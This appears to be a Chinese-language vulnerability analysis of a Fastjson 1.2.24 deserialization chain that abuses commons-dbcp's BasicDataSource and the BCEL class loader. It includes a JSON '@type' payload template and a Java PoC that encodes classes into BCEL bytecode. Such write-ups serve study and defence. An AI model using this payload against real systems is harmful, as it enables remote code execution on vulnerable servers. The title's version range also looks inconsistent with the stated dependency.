 # Fastjson1.1.15-1.2.4与BCEL字节码加载

## 依赖

单纯为了复现罢了

```xml
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.24</version>
</dependency>
<dependency>
    <groupId>commons-dbcp</groupId>
    <artifactId>commons-dbcp</artifactId>
    <version>1.4</version>
</dependency>
```

## 分析

漏洞利用点在`org.apache.commons.dbcp.BasicDataSource`这个类

我们也知道在执行parseObject时，会调用类中所有get方法，这很关键

正菜开始，在`org.apache.commons.dbcp.BasicDataSource#createConnectionFactory`中有

![](img/1.png)

看到这个else分支，便知道我们可以自定义类加载器去加载字节码，并且这两个参数都存在set方法，参数可控

![](img/2.png)![](img/3.png)

接下来我们就来看看是否在某个get或set方法当中能触发到这个关键，看到`createDataSource`调用了`createConnectionFactory`![](img/4.png)

可以看到`getConnection`又调用了`createDataSource`

![](img/5.png)

是个get方法，那好办了

调用栈也就出来了

![](img/6.png)

因此我们只需要构造出类似下面的payload即可

```json
{"@type":"org.apache.commons.dbcp.BasicDataSource","driverClassName":"$$BCEL$$XXXXXX","driverClassLoader":{"@type":"org.apache.bcel.util.ClassLoader"}}
```

分析完毕，顺便分享自己生成BCEL字节码的poc

```java
package bcell;

import com.mchange.v2.io.FileUtils;
import javassist.ClassPool;
import org.apache.bcel.classfile.Utility;


public class bcelEncode {
    public static String bcelEncode(String classFile) throws Exception {

        return "$$BCEL$$" + Utility.encode(ClassPool.getDefault().get(classFile).toBytecode(), true);
    }

    public static void main(String[] args) throws Exception{
        System.out.println(bcelEncode("bcell.TestBCELClass"));;
    }
}
```

